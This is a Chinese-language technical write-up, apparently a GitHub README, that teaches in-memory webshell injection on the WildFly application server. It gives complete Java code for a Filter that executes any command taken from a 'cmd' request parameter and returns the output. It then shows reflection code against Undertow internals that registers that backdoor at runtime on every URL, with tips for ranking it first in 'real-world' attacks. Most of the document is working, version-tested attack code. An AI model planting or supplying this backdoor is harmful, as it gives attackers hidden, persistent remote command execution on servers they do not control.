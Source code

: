 # Wildfly

> WildFly，原名JBoss AS或者JBoss，是一套应用程序服务器，属于开源的企业级Java中间件软件，用于实现基于SOA架构的web应用和服务。

### 内存马
#### ServletContext

##### 获取Context-基于getServletContext()

```
ServletContext servletContext = request.getServletContext();
```

![image-20211230174050842](readme.assets/image-20211230174050842.png)

#### Filter

##### 静态添加-基于web.xml

FilterShell.java

```java
package com.example.wildfly;

import javax.servlet.*;
import java.io.IOException;

public class FilterShell implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
    }

    @Override
    public void doFilter(ServletRequest req, ServletResponse resp, FilterChain filterChain) throws IOException, ServletException {
        try {
            String cmd;
            if ((cmd = req.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                resp.getOutputStream().write(stringBuilder.toString().getBytes());
                resp.getOutputStream().flush();
                resp.getOutputStream().close();
            }
            filterChain.doFilter(req, resp);
        }catch (Exception e){
            filterChain.doFilter(req, resp);
        }

    }

    @Override
    public void destroy() {

    }
}
```

web.xml

```java
<filter>
    <filter-name>FilterShell</filter-name>
    <filter-class>com.example.wildfly.FilterShell</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterShell</filter-name>
    <url-pattern>/index</url-pattern>
</filter-mapping>
```



Tested Version:	WildFly v18.0.0.Final

![image-20211230161228102](readme.assets/image-20211230161228102.png)



##### 动态添加-基于DeploymentInfo

参考

- https://www.tabnine.com/code/java/methods/io.undertow.servlet.api.DeploymentInfo/addFilter

![image-20211230173612025](readme.assets/image-20211230173612025.png)

拎出来，该反射的用反射实现就成

- 基于getServletContext()获取上下文Context

```java
ServletContext servletContext = request.getServletContext();
```

- 生成恶意Filter

```java
Filter evilFilter = new FilterShell();
```

- 构造FilterInfo

```java
FilterInfo filter = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
```

- 反射获取deploymentInfo，调用`public DeploymentInfo addFilter`添加filter

```java
Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
deploymentInfoF.setAccessible(true);
DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
deploymentInfo.addFilter(filter);
```

- 反射获取deployment，调用`public ManagedFilter addFilter`将filterInfo添加到filters中

```java
Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
deploymentF.setAccessible(true);
DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
deployment.getFilters().addFilter(filter);
```

- 调用`addFilterUrlMapping`添加映射即可

```java
deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
```

- 添加banner

```java
response.getWriter().write("inject success !!!");
```

最终测试代码整合如下

```java
package com.example.wildfly;

import io.undertow.servlet.api.DeploymentInfo;
import io.undertow.servlet.api.FilterInfo;
import io.undertow.servlet.core.DeploymentImpl;
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.lang.reflect.Field;

/**
 * Tested version:
 *      WildFly 18.0.0.Final
 *      Wildfly 20.0.1.Final
 *      WildFly 24.0.1.Final
 *
 */
public class FilterInject extends HttpServlet {
    public static class FilterShell implements Filter {
        @Override
        public void init(FilterConfig filterConfig) throws ServletException {
        }

        @Override
        public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {

            String cmd;
            if ((cmd = servletRequest.getParameter("cmd")) != null) {
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream())
                );
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
                servletResponse.getOutputStream().flush();
                servletResponse.getOutputStream().close();
            }
            filterChain.doFilter(servletRequest, servletResponse);
        }

        @Override
        public void destroy() {

        }
    }

    @Override
    protected void doGet(HttpServletRequest request, HttpServletResponse response) throws ServletException, IOException {
        try {
            ServletContext servletContext = request.getServletContext();
            Filter evilFilter = new FilterShell();
            FilterInfo filterInfo = new FilterInfo(evilFilter.getClass().getName(), evilFilter.getClass());
            Field  deploymentInfoF = servletContext.getClass().getDeclaredField("deploymentInfo");
            deploymentInfoF.setAccessible(true);
            DeploymentInfo deploymentInfo = (DeploymentInfo) deploymentInfoF.get(servletContext);
            deploymentInfo.addFilter(filterInfo);
            Field deploymentF= servletContext.getClass().getDeclaredField("deployment");
            deploymentF.setAccessible(true);
            DeploymentImpl deployment = (DeploymentImpl) deploymentF.get(servletContext);
            deployment.getFilters().addFilter(filterInfo);
            deploymentInfo.addFilterUrlMapping(evilFilter.getClass().getName(), "/*", DispatcherType.REQUEST);
            response.getWriter().write("inject success !!!");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

测试效果如图

![image-20211230181606604](readme.assets/image-20211230181606604.png)

注：实战场景也许有将evilFilter置首的需求，可使用

- io.undertow.servlet.api.DeploymentInfo#insertFilterUrlMapping
```
deploymentInfo.insertFilterUrlMapping(0,evilFilter.getClass().getName(),"/*",DispatcherType.REQUEST);
```
